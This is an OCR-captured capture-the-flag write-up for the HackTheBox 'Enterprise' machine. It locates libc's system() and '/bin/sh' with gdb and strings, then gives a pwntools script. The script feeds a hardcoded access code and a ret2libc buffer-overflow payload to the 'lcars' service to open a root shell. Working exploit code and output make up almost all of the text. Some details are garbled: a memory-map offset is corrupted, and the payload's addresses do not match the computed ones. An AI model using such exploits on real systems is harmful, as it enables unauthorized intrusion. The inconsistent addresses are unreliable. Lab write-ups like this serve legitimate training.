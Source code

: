 

#  Return lib c 

```bash
gdb -q  /lib32/libc.so.6
p system
$1 = {<text variable, no debug info>} 0x3e980 <system>
system =256384 
```

```bash
ps -ef | grep lcars

root      7970 17272  0 20:53 pts/4    00:00:00 ./lcar

56555000-56557000 r-xp 00000000 08:05 922714                             /root/htb/Enterprise/bin/lcars
56557000-56558000 r-xp 00001000 08:05 922714                             /root/htb/Enterprise/bin/lcars
56558000-56559000 rwxp 057652520002000 08:05 922714                             /root/htb/Enterprise/bin/lcars
56559000-5657b000 rwxp 00000000 00:00 0                                  [heap]
f7dcf000-f7de8000 r-xp 00000000 08:05 2097342                            /usr/lib32/libc-2.28.so

root@ens:~/htb/Enterprise/bin# strings -a    -o   /usr/lib32/libc-2.28.so | grep /bin/sh
5765252 /bin/sh
```

system =  0x3e980

libc = f7dcf000

/bin/sh = 5765252

# Payload

```python
from pwn import *

host = "10.10.10.61"
port =  "32812"
context(os="linux", arch="i386")
padding = "\x90" * 212

system = p32(0xf7e4c060)
exit = p32(0xf7e3faf0 )
sh_addr =p32(0xf7f6ddd5)

r2libc= system + exit+ sh_addr

payload =  padding + r2libc

sh =  remote(host, port)
sh.recvuntil("Enter Bridge Access Code")
sh.sendline("picarda1")
sh.recvuntil("Waiting for input:")
sh.sendline("4")
sh.recvuntil("Enter Security Override:")
#print s.recv(1024)
sh.sendline(payload)
sh.interactive()
```


